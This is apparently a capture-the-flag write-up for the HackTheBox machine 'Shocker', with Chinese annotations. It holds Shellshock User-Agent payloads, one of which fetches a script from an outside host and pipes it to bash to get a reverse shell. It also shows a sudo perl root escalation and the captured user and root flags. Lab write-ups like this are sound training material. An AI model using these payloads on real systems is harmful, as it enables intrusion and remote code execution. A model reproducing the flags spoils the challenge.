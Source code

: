 # Shocker
- IP : 10.129.213.104
- URL : https://app.hackthebox.eu/machines/108

## Recon
- Rustscan
    - ![](https://i.imgur.com/4BeuvZQ.png)
- nmap 
    - ![](https://i.imgur.com/zj7S9gt.png)
- 觀察首頁
    - ![](https://i.imgur.com/VW19KRW.png)
- 通靈掃到目錄 `/cgi-bin/user.sh`	
    - ![](https://i.imgur.com/iniIUSg.png)

## Shell shock
- 在 User agent 增加
    - `() { :;}; echo; /usr/bin/id`
    - ![](https://i.imgur.com/2iOQw9q.png)
- `User-Agent: () { :;}; echo; /usr/bin/wget 10.10.16.35:8000/s_HTB /tmp/s`
    - 下載 shell
    - ![](https://i.imgur.com/5A2lKtC.png)
- 執行 shell
    - `User-Agent: () { :;}; echo; /usr/bin/wget -O - 10.10.16.35:8000/s_HTB | /bin/bash`
## Reverse shell
- 收 shell
    - ![](https://i.imgur.com/Utt4lst.png)
- Spawn shell
    - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Get user flag
    - ![](https://i.imgur.com/M4rjd5b.png)
    - `6e9aad0e2498bff702b570c2da380288`
## 提權
- 跑豌豆
    - 
![](https://i.imgur.com/Gfbiuav.png)
- 可以執行 perl
    - `sudo perl -e 'exec "/bin/sh";'`
- 取得 Root Flag
    - ![](https://i.imgur.com/bFTiyzW.png)
    - `e3e05cbd925c9e407215bb26e9b7e47d`